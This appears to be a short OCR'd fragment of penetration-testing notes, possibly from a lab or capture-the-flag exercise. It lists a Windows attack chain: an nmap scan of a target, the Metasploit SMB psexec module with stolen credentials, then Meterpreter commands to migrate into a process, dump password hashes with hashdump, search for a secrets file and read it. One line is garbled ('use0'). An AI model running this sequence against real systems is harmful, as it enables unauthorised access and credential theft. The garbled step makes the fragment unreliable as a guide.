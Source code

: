 Run
      nmap -sN -Pn -A [target IP] 

      msfconsole 
      search exploit/windows/smb/psexec

      use0


      set SMBPass [password]
      set SMBUser [user]
      run
      
      sysinfo


      migrate 772
      hashdump
      

      search -f secrets.txt
Used to locate files      

      cat "path/to/file" 
